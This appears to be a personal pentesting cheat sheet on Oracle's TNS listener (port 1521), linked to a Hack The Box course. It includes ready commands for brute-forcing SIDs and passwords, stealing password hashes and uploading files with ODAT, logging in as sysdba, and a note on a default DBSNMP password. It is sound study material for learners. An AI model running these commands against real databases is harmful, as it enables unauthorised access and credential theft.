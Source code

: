 # TNS

[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Transparent Network Substrate (TNS) is a protocol owned and developed by Oracle. It's mainly used to manage [Oracle Databases](/programming-languages/databases/relational/dbms/oracle.md). 

It includes performance monitoring and analysis, error reporting, and logging tools. It supports a wide range of networking protocols such as IPX/SPX, TCP/IP, IPV6, and SSL/TLS. Communications are encrypted.

🐊️ **Port**: 1521 (TCP)

The server-side service that listens for clients is called a listener. Its configuration determines which networking protocols are allowed.
</div><div>
</div></div>

<hr class="sep-both">

## TNS Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

List databases using brute force:

```shell!
$ sudo nmap IP -p 1521 -sV --script oracle-sid-brute
```

[Oracle Database Attacking Tool](https://github.com/quentinhardy/odat) <small>(ODAT, 1.5k ⭐, 2022 ☠️)</small> can be used to enumerate or exploit Oracle Databases.

```ps
$ sudo apt install odat
$ odat all -s IP
$ odat sidguesser -s IP
$ odat passwordguesser -s IP -d sid
$ odat passwordstealer -s IP -U username -P password -d sid --sysdba --get-passwords
$ odat utlfile [...] # file upload
```

📚 User may have sys dba access, try `--sysdba`.
</div><div>

We can use Oracle SQLPlus to connect to the database:

```shell!
$ sudo apt-get install oracle-instantclient-sqlplus
$ sudo updatedb
$ # if you got an error when running sqlplus
$ lpath=$(dirname `locate libsqlplus.so`) ; echo $lpath
$ sudo sh -c "echo $lpath > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
$ # connect
$ sqlplus username/password@IP/sid
$ sqlplus username/password@IP/sid as sysdba
```

📚 User may have sys dba access, try `as sysdba`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `tnsnames.ora` (client-side infos, list of db/services configurations) 
* `listener.ora` (server-side config, listener config)
* `$ORACLE_HOME/network/admin` folder
* DBSNMP service has `dbsnmp` default password
* Finger service?
* PL/SQL Exclusion List (PlsqlExclusionList)
* Remove Listener Management?
</div><div>
</div></div>
